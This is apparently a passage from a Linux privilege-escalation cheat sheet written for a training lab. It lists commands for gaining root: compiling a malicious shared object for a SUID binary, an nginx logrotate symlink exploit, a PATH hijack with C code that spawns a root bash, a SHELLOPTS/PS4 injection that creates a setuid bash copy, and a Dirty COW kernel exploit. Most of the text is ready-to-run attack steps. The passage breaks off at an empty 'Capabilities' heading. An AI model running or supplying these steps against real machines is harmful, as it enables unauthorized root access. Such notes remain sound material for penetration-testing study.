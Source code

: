 Compile and run
```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
/usr/local/bin/suid-so
```

### SUID Symlink

```bash
dpkg -l | grep nginx
```

From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3  
For this exploit, it is required that the user be `www-data`

Run
```bash
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log  
```

At this stage, the system waits for logrotate to execute (THIS CAN BE LONG)  

### SUID/SGID environnement variable
```bash
sudo -l / output suid-env
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
gcc /tmp/service.c -o /tmp/service
export PATH=/tmp:$PATH
/usr/local/bin/suid-env
```

```bash
sudo -l / output suid-env2
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```

### Kernel exploit :
1. Run the linux `exploit-suggester.pl `
```bash  
perl PATH/SCRIPT.PL  
```

2. Use the desired vulnerability : here **dirty cow**  

**compile** 
```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
```
**run** 
```bash
./c0w	
/usr/bin/passwd	-> allow to gain te root shell
```
### Capabilities
